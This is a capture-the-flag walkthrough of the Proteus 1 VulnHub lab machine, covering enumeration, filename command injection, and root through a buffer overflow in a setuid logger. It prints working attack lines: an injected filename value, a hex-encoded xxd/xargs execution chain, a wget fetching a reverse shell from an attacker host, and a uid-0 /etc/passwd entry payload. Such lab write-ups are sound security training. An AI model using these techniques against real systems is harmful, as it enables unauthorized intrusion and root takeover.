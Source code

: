# Proteus 1 Vulnhub Walkthrough

## Intro

Below you will find a walkthrough of the Proteus 1 VM. This was a fun and challenging machine. This page is full of fun spoilers, so if you're 
still attemping to root the machine, try harder :). Without further ado, let's dive in. 

## Download and Find It

Download the Proteus VM from [VulnHub](https://www.vulnhub.com/entry/proteus-1,193/), load it up, and pick your favorite tool. For quick identification, I use nmap.  

`nmap 192.168.2.0/24 -sP Starting Nmap 7.70 ( https://nmap.org )  `  
`Nmap scan report for Proteus (192.168.2.180)Host is up (0.23s latency).`

## Start Enumeration

I use a series of scripts to gather most of the information for me. Reconscan by Mike Czumak does an nmap script and starts work on additional modules depending on what ports are determined to be open. There are three main ports open: 22, 80, and 5355

> PORT     STATE SERVICE REASON         VERSION  
> 22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)  
> | ssh-hostkey:   
> |   2048 40:3e:c5:6f:dc:63:c5:af:43:51:28:5c:05:f5:98:c2 (RSA)  
> | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCwD5BkuUf9zDQ1+TkrK0K9VffoH9cCm9OPa215nFtfOejQkf7k3ppxkKqZxlbsOZje5pp9y5gv4EMeAatn1BL2KbMlT96UW0tcFyC8uRJdFITpd1LnzusucVvpP5qa29gyNVJrx/scsdE9bIwB++toL4kSbX40kbUA4u+26qqKXyPaaO7SMo0VxM+7E4l5ZXIV9kfVo6SYcCTHo/WG48iSrbe1UGQg3VR0xxtU9OZg/oiS7BHvqracFTn71Obp+KaN6KA8R3NKQcxA+FSlr1jOVmr3q1b6++RAij4jajwafC1iu0tcy9WkhTrXBLbtmPJ2WI4/8cKO4zhuW0Z2eieD  
> |   256 bb:9c:b0:3c:ff:48:8a:2b:37:d2:fe:2e:78:ce:8c:a9 (ECDSA)  
> | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFLxp5pS3QOLUV+Mfsyeak4GLeciDrUVshZbJEzKKGu/IPOxzNzkVna0IcfGCyRfzfJp1/R6I3k4CdKj6wD2Xo4=  
> |   256 ff:85:4e:91:29:da:d1:1b:b3:11:26:5b:d8:c0:7a:f8 (EdDSA)  
> |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDA1x1iCaJYag2vwfBSvDU1ffJ+WtKs4kWCJe/mLxBFm  
> 80/tcp   open  http    syn-ack ttl 64 Apache httpd  
> | http-methods:   
> |_  Supported Methods: GET HEAD  
> |_http-server-header: Apache  
> |_http-title: Proteus | v 1.0  
> 5355/tcp open  llmnr?  syn-ack ttl 1  

Nikto and Dirb scans are kicked off for port 80. Let's continue exploring the website.

## Proteus

Fire up Burp and head to the web page. 

![Proteus_home](/imgs/proteus_homepage.png)

First notes are that there is a file upload, which is always fun to play with, and a login. 
Some quick auth bypass tries and sqlmap bear no fruit, so I focus on the main function and upload some files. If you upload something 
that doesn't fit the MIME type, Proteus gets mad at you and rejects. When you get a successful upload, Proteus brings you to 
the /samples page. 

![Proteus_successful_upload](/imgs/default_sucessful_upload.png)

Proteus changes our file name to a base64 encoded value, runs strings, and runs objdump on our file. That's nice of them. I can also 
see under objdump our file name (stored in /home/malwareadm/samples/). 

Looking at the POST in Burp, we have name="file"; and filename="file.bin" that we can mess with. 

![Burp_submit_request](/imgs/burp_submit_request.png)

I tried messing around wtih base64 encoded filenames first, but it's always better to keep it simple. Test for command injection in the 
filename parameter. filename="file.bin;id" works when you reload your webpage. 

![Id_cmd_inj_test](/imgs/id_cmd_inj_test.png)

## Messing With Command Injection

This part gave me quite a bit of trouble. The site takes the parameter of filename (currently set to file.bin;id), converts it to a 
random string (and keeps the extension if possible), and then runs base64 on it. It is useful that we know the name of our file as we 
can use it to access our own payloads on the server if  need be. 

I needed to generate a 'bad characters' list as some commands would not pass through. The website makes this pretty simple and fails 
obviously when testing. 

**Good chars**

![good_chars](/imgs/good_chars.png)

**Bad chars**

![bad_chars](/imgs/bad_chars.png)

Most of the commands that would give us further access require either '/' for files or a '.' for an ip address. I could open a port 
with nc, but I couldn't actually connect or interact with it afterwards. Looking back at the good character list, we have access to 
pipe. Essentially, if we can string together a set of commands, encoded or otherwise, we can create complex commands for execution.

After much trial and error I'm left with the following: `echo <hex encoded command> | xxd -r -p | xargs -i{} sh -c '{}'`

Taking hex encoded values, I can pass it to xxd (which also handles the encoding), and finally pass it to xargs which can handle the 
execution by bassing to sh. It was easy passing encoded values; however, they wouldn't execute (or if they did it was blind). 
I also ran into an issue that the server changes the filename parameter to all lower case. Initially I messed with xargs -I, 
but the server didn't like it. The xargs -i[replace] functionality is apparently deprecated (check man) in favor of -I, so I'm glad 
I had a version (4.7.0) that still had it. 

## Arbitrary Command Injection

It's easy to create hex encoded commands. I also created a quick script to help double check my work and possibly handle other use 
cases (though be wary of my shaky script abilites). Let's check again to see everything working. Here is the payload with 
'cat /etc/passwd'

![etc_passwd_cmd_injection](/imgs/etc_passwd_cmd_injection.png)

Now we can try to put a reverse shell in. The current account doesn't have write access to the web directory, so I needed to put it 
somewhere else. wget supports this with -O. `wget -O /tmp/simpleshell.py http://<IP ADDR>/simpleshell.py`
Encode it, send it, and double check the file was recieved. You can always look at your own apache access.log to see if the GET was 
successful, or you can 'ls' the /tmp directory. 

![already_exec_shell](/imgs/already_executable_shell.png)

So now all I have to do is throw up a listner and execute the shell.

![connect](/imgs/successful_rshell_connect.png)

## >_Terminal

Once inside you can explore around to your heart's content. There are some config files with credentials and a test admin login that 
can be used for the web page. There is even a RSA private key (password protected) (see some stuff in /imgs/interesting_snip\*). Keep 
exploring and you'll eventually find a quaint file: admin_login_logger. Check it's permissions and notice anything special? 
The sticky bit is set and the owner is root. I nc it over to my machine for further testing. 

admin_login_logger takes a parameter and writes it to a log file. 

![logger_test](/imgs/logger_test_input.png)

Nothing too special, but user input is a fickle thing. I generated a junk pattern and pass it into the logger to see interesting 
effects. 

![overflow](/imgs/logger_overflow.png)

An overflow occurs and I actually overwrite the file location and file name. Cool. So I have the ability to write to any file as 
root with a certain space for a payload. A few things to note about the overflow: 
 - it starts user input with a new line
 - the user input is appended to the end of the file
 - the user has limited space for the payload
 - the user has limited space in the file name for the path and file
 - the pattern offset is 456 based on the name of the file created when I hit the first overflow 
 
With these notes in mind, I can craft a payload. I fire up python interpreter for some quick work.  
`def pad(len):`  
    `pad="A"` * `len`  
    `return pad`  
  
`def gen():`  
    `payload=userInput + pad(patternCustomLen-len(userInput)) + fileToOverwrite`  
    `print payload`

I initially thought I could overwrite the /etc/passwd file and remove the root account password, but this is when I found that 
the overflow just appends user input to the end. It also doesn't handle new lines very well either. Another easy thing to do is 
add an account to the machine. I crafted a user without a password and the machine still wouldn't let me su. 

Then, hashed a password (I used openssl passwd), created a user, su ... and fail because the overflow overwrote the : shell : 
section of /etc/passwd and the machine didn't know what to give me. 

![almost_final_payload](/imgs/almost_final_userInput_payload.png)

![failed_login](/imgs/failed_proteus_login_root.png)
 
Finally, here is the user input section of the final payload: `<username>:<password>:0:0::/tmp/`

![fina_payload](/imgs/final_userInput_payload.png)
 
Now to su <username>, type the password, and pop to a root shell.
 
![proteus_root](/imgs/successful_proteus_login_root.png)
 
Now you can find the flag and display it. 
 
![flag](/imgs/flag.png)
 
##  Final comments

Overall I had a lot of, albeit frustrating, fun. I needed the practice and learned some things along the way. 
The system gives a lot of leeway to the user because it executes commands in so many places and even grants them execute 
rights (see nice_proteus_exec_help\* in imgs). 
Crafting the original injection is probably the hardest part. Now onto the next one.

